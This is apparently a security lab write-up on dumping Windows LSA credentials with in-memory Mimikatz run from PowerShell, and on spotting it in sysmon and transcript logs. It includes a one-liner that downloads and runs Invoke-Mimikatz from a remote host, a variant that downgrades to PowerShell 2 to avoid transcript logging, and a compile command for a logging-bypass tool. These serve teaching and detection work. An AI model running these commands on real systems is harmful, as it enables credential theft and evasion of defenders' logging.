 ```yaml
---
description: >-
  Local Security Authority (LSA) credential dumping with in-memory Mimikatz with
  powershell.
---
```


# Local Security Authority

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Hashes and plain text passwords of the compromised system are dumped to the console:

![](../../.gitbook/assets/pwdump-mimikatz-results.png)

## Observations

The process commandline is blatantly showing what is happening in this case, however, you should assume that file names and script argument names will be changed/obfuscated by a sophisticated attacker:

![victim host inspection](../../.gitbook/assets/pwdump-mimikatz.png)

While skimming through sysmon logs, if you see a script being downloaded and executed in memory in a "relatively" short timespan between the two, it should immediately raise your suspicion and the host should be investigated further for a compromise:

![](../../.gitbook/assets/pwdump-mimikatz-sysmon.png)

### Transcript Logging \#1

PowerShell transcript logging should allow you to see the commands entered into the console and their outputs, however I got some unexpected results at first, read on.

For the first test, I setup transcript logging in my powershell \(version 2.0\) profile:

{% code-tabs %}
{% code-tabs-item title="C:\\Users\\mantvydas\\Documents\\WindowsPowerShell\\Microsoft.PowerShell\_profile.ps1" %}
```bash
Start-Transcript -Path C:\transcript.txt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="warning" %}
Note that enabling transcription logging is not recommended from powershell profiles, since `powershell -nop` will easily bypass this defence - best if logging is enabled via GPOs.
{% endhint %}

### Cannot Start Transcript

First thing I noticed was that if at least one powershell instance was already running on the victim sysem, the transcript could not be started \(assume because the file is in use already\), which makes sense, but is not helpful for the victim at all:

![](../../.gitbook/assets/pwdump-transcript-cant-start.png)

This could be fixed by amending the PS profile so that the the transcript gets saved to a file the OS chooses itself rather than hardcoding it or in other words, doing `Start-Transcript` without specifying the path will do just fine.

### Empty Transcript - Weird

Below shows three windows stacked - top to bottom: 

1. Attacker's console via a netcat reverse shell using cmd.exe, issuing a command to dump credentials with mimikatz powershell script. Note how it says that the transcript was started and  the mimikatz output follows;
2. **Empty \(!\)** transcript logging file transcript.txt on the victim system;
3. Process explorer on the victim system showing the process ancestry of the reverse shell cmd.exe PID `616` which had spawned the powershell process \(mentioned in point 1\) that ran the mimikatz script;

![](../../.gitbook/assets/pwdump-transcript-empty.png)

As can be seen from the above screenshot, the transcript.txt is empty although mimikatz ran successfully and dumped the credentials.   
  
This brings up a question if I am doing something wrong or if this is a limitation of some sort in transcript logging, so I will be trying to:

* dump credentials from a different process ancestry
* dump credentials locally on the victim system \(as if I was doing via RDP\)
* upgrade powershell to 5.0+

### Dumping Credentials Locally

This works as expected and the transcript.txt gets populated with mimikatz output:

![](../../.gitbook/assets/pwdump-mimikatz-transcript.png)

### Dumping Credentials From a Different Process Ancestry

Tried dumping creds from the ancestry:   
`powershell > nc > cmd > powershell` instead of `cmd > nc > cmd > powershell` - to no avail, but oh well, you never know.

### Transcript Logging \#2

I have updated my Powershell version from 2.0 to 5.1 and repeated credential dumping remotely `(cmd > nc > cmd > powershell)` process ancestry, same like the first time, where the transcript.txt came back empty. This time, however, the results are different - output is logged:

![Powershell 5.1 transcribing powershell console remotely with no issues](../../.gitbook/assets/pwdump-transcript-working.png)

### Back to PowerShell 2.0

Even though the victim system now has Powershell 5.0, that is capable of transcript logging, we can abuse the `-version 2` switch of the powershell.exe binary like so: 

```bash
powershell -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

 ... and the transcript will again becomes useless:

![](../../.gitbook/assets/pwdump-ps2-no-transcript.png)

This however allows you looking for commandline arguments that suggest powershell being downgraded:

![](../../.gitbook/assets/pwdump-powershell-downgrade.png)

### Bypassing w/o Downgrading

Another technique allowing to bypass the transcript logging without downgrading is possible by using a compiled c\# program by [Ben Turner](https://gist.githubusercontent.com/benpturner/d62eb027a518b3743520a34d3aecb915/raw/32d96dafe148c784706b0dc7ed1d0fbbab51c354/posh.cs):

{% file src="../../.gitbook/assets/posh.cs" caption="Transcript Bypass without Downgrade - C\#" %}

Compile the code .cs code:

```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:C:\experimemts\transcript-bypass\bypass.exe C:\experiments\transcript-bypass.cs /reference:System.Management.Automation.dll
```

If you are having problems locating the `System.Management.Automation.dll` - you can find its location by using powershell: `PS C:\Users\mantvydas> [psobject].assembly.location`

We can then launch the transcript-bypass and use powershell and not worry about the transcript, because although the file will be created, it will be showing this:

![](../../.gitbook/assets/pwdump-bypass-no-downgrade.png)

I wanted to check if I could find any traces of non-powershell.exe processes creating transcript files in the logs, so I updated the sysmon config:

{% code-tabs %}
{% code-tabs-item title="sysmonconfig.xml" %}
```markup
<FileCreate onmatch="include">
    <TargetFilename condition="end with">.txt</TargetFilename>
</FileCreate>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

...and while I could see powershell.exe creating transcript files:

![](../../.gitbook/assets/powershell-transcript-logs.png)

I could not get sysmon to log the transcript file creation caused by the `bypass.exe` although the file got successfuly created - something to thing about and research further!

{% embed url="https://attack.mitre.org/wiki/Technique/T1003" %}

{% embed url="https://www.fireeye.com/blog/threat-research/2016/02/greater\_visibilityt.html" %}

